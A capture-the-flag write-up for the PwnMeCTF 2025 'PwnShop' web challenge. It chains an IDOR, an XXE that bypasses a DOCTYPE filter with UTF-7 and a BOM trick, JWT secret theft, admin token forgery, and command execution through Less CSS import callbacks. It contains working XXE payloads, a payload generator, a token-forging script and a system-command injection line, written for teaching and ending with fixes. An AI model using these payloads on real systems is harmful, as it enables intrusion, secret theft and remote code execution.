

# PwnShop Writeup

## Challenge Overview
PwnShop is a vulnerable e-commerce platform where players must escalate from a basic user to an admin and achieve remote code execution (RCE) to retrieve the flag. The challenge involves exploiting multiple vulnerabilities, including IDOR, XXE, JWT secret leakage, and finding a code injection vulnerability in an existing open-source CSS library. 

The sources of the challenge are available at:
-  https://github.com/Phreaks-2600/PwnMeCTF-2025-quals/tree/58486a7e9e0344345771c3d534838441397c262d/Web/Pwnshop

Anyone is able to launch it locally and try it for themselves.

---

## Vulnerability analysis



### 1. **Account Creation**
A non-privileged account can be created using the registration functionality, allowing access to the site.


### 2. **IDOR to XXE via order submission**

The `/submitOrder` endpoint is vulnerable to **XML External Entity (XXE)** attacks. However, regular users cannot create orders due to insufficient funds. To exploit the XXE vulnerability, we must first exploit an **Insecure Direct Object Reference (IDOR)** by referencing existing orders in the database.

By referencing these orders, we bypass the need to create a new order and gain access to the vulnerable XML processing functionality.


#### **XXE in XML processing**
The endpoint processes user-supplied XML data, and the parser is configured with `LIBXML_NOENT`, which enables [external entity](https://en.wikipedia.org/wiki/XML_external_entity_attack) processing. Here's the vulnerable code:

```php
$xmlSanitized = $this->xmlScanner->scan($data["xml"]);
$xml = simplexml_load_string($xmlSanitized, 'SimpleXMLElement', LIBXML_NOENT);
```

This makes it possible to [read local files using external entities](https://portswigger.net/web-security/xxe). For example, the following payload would read `/etc/passwd`:

```xml
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<order>
    <shipping_address>
        <name>test</name>
        <address>&xxe;</address>
    </shipping_address>
</order>
```

The response will include the contents of `/etc/passwd` in the `address` field. This can be used to extract sensitive files from the server, such as configuration files or source code.


### 3. **Bypassing XML sanitization**
The XML input is sanitized by a custom [XmlScanner](https://github.com/Phreaks-2600/PwnMeCTF-2025-quals/blob/58486a7e9e0344345771c3d534838441397c262d/Web/Pwnshop/build/app/src/Security/XmlScanner.php#L5) class, which blocks `DOCTYPE` declarations:

```php
/* Simplified and commented for writeup clarity purposes */
class XmlScanner {
    public function scan($xml) {
        // Check for DOCTYPE in the original XML
        if (preg_match('/<!DOCTYPE/i', $xml)) {
            throw new InvalidXmlException();
        }

        // Convert encoding to UTF-8 and check again
        $xml = $this->convertToUtf8($xml);
        if (preg_match('/<!DOCTYPE/i', $xml)) {
            throw new InvalidXmlException();
        }

        // Explicitly block UTF-7 encoding
        if (preg_match('/encoding\s*=\s*(["\'])UTF-7\1/si', $xml)) {
            throw new InvalidXmlException("UTF-7 encoding is not allowed.");
        }

        return $xml;
    }

    private function convertToUtf8($xml) {
        $encoding = $this->detectEncoding($xml);
        
        if ($encoding !== 'UTF-8') {
            $xml = mb_convert_encoding($xml, 'UTF-8', $encoding);
        }
        
        // Remove UTF-8 BOM if present after conversion
        if (strncmp($xml, "\xEF\xBB\xBF", 3) === 0) {
            $xml = substr($xml, 3);
        }
        
        return $xml;
    }

    private function detectEncoding($xml) {
        // Check for UTF-8 BOM first (hex EFBBBF)
        if (strncmp($xml, "\xEF\xBB\xBF", 3) === 0) {
            return 'UTF-8'; // BOM takes precedence over XML declaration
        }

        // Original detection logic remains
        if (preg_match('/<\?xml.*encoding=["\']([^"\']+)["\'].*\?>/i', $xml, $matches)) {
            return strtoupper($matches[1]);
        }
        return 'UTF-8';
    }
}

```

**Bypass using UTF-7 encoding:**
We can obfuscate the `DOCTYPE` declaration using UTF-7 encoding:

```xml
<?xml version="1.0" encoding="UNICODE-1-1-UTF-7" ?>+ADwAIQ-DOCTYPE root +AFs
    +ADwAIQ-ENTITY xxe SYSTEM +ACI-php://filter/read+AD0-convert.base64-encode/resource+AD0-/var/www/html/src/Auth/JWTManager.php+ACIAPg
+AF0APg
```

The characters `<!` in `<!DOCTYPE` are converted to `+ADwAIQ-`, bypassing the regex check. However, UTF-7 is explicitly blocked. Using the somewhat obscure `UNICODE-1-1-UTF-7` alias avoids this exception but crashes the application because it's not recognized by `mb_convert_encoding`, which is called by the application to convert from UTF-7 to UTF-8

**Final bypass:**
We prepend a UTF-8 [BOM](https://en.wikipedia.org/wiki/Byte_order_mark) (`\ufeff`) to the XML payload, which deceives the sanitizer into believing the content is UTF-8. However, the actual encoding is UTF-7, and `simplexml_load_string` processes it as UTF-7. This allows the UTF-7 encoded data to bypass the XML sanitization checks while still being interpreted correctly by the parser.

**Final XXE payload:**
```xml
\ufeff<?xml version="1.0" encoding="UNICODE-1-1-UTF-7" ?>+ADwAIQ-DOCTYPE root +AFs
    +ADwAIQ-ENTITY xxe SYSTEM +ACI-php://filter/read+AD0-convert.base64-encode/resource+AD0-/var/www/html/src/Auth/JWTManager.php+ACIAPg
+AF0APg
```

**Payload Generation Script**:
```php
<?php
// Construct base XXE payload with PHP filter wrapper
$body = '<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/src/Auth/JWTManager.php">
]>';

// Convert to UTF-7 while preserving XML structure
$utf7Body = mb_convert_encoding($body, 'UTF-7', 'UTF-8');

// Prepend BOM and non-standard encoding declaration
$xml = "\ufeff<?xml version=\"1.0\" encoding=\"UNICODE-1-1-UTF-7\" ?>" . $utf7Body;

// Final payload for bypassing XmlScanner checks
echo $xml;
```


### 4. **Extracting the JWT Secret**
The XXE payload retrieves the JWT secret from `/app/src/Auth/JWTManager.php` using [PHP's URL wrapper](https://www.php.net/manual/en/wrappers.php.php) functionality. The `php://filter` wrapper allows reading and transforming file contents, including base64 encoding:

```php
// /app/src/Auth/JWTManager.php
$secretKey = 'ThisIsNotTheSameSecretOnRemote';
$algorithm = 'HS256';
```

The file is encoded in base64 using the `php://filter/read=convert.base64-encode/resource=` wrapper to avoid breaking the XML parser with special characters. The first screenshot shows the malicious XML payload being submitted via POST request, while the second demonstrates retrieving the base64-encoded secret through the order details API response:


### 5. **Forging an Admin JWT**
With the JWT secret, we forge an admin token:

```php
<?php
require_once 'app/vendor/autoload.php';

use Firebase\JWT\JWT;

// Configuration from JWTManager
$secretKey = 'ThisIsNotTheSameSecretOnRemote';
$algorithm = 'HS256';

// User data structure matching what your JWTManager expects
$adminUser = [
    'id' => 1,
    'username' => 'admin',
    'permissions' => ['*']
];

// Create the payload matching your JWTManager's structure
$payload = [
    'user_id' => $adminUser['id'],
    'username' => $adminUser['username'],
    'permissions' => $adminUser['permissions'],
    'iat' => time(),
    'exp' => time() + 3600 // Expires in 1 hour
];

try {
    $token = JWT::encode($payload, $secretKey, $algorithm);
    echo $token;
} catch (Exception $e) {
    exit(1);
} 
```

### 6. **Remote Command Execution via Less Import**
The admin interface's custom CSS feature contains a critical vulnerability in the Less processor's import handling. The [Less_FileManager::getFilePath](https://github.com/wikimedia/less.php/blob/d01c8239e65f739f6d3443390efbae1c5dec2bf1/lib/Less/FileManager.php#L37) class improperly executes callbacks when resolving imports:

````php
foreach ( $import_dirs as $rootpath => $rooturi ) {
    if ( is_callable( $rooturi ) ) {
        $res = $rooturi( $filename ); // Critical callback execution
        if ( $res && is_string( $res[0] ) ) {
            return [ /*...*/ ];
        }
    }
````

When processing `@import` directives, the code checks if registered import paths are callables. By configuring an import path with a PHP function like `system`, any subsequent Less import becomes a function call with attacker-controlled parameters.

**Exploitation Process**:
1. **Configure Malicious Import Path**  
   Set a custom import path to `system` through the admin API:  
   

2. **Trigger Command Execution**  
   Create CSS that imports a system command:  
   ```css
   @import('/getflag PWNME;'); 
   ```
   This gets interpreted as:  
   ```php
   system('/getflag PWNME;');
   ```

3. **Capture Command Output**  
   The Less processor executes the command during CSS compilation:  
   


## Conclusion
By chaining three critical vulnerabilities:

1. **IDOR** → Access admin orders
2. **XXE** → Extract JWT secret
3. **Less RCE** → Execute arbitrary commands

We achieve full system compromise and retrieve the flag:


`PWNME{f8c24b0632286fe10e506350b4074779}`

**Security Recommendations:**
- Implement atomic order ownership checks
- Disable LIBXML_NOENT in XML parsing
- Sanitize Less processor import callbacks
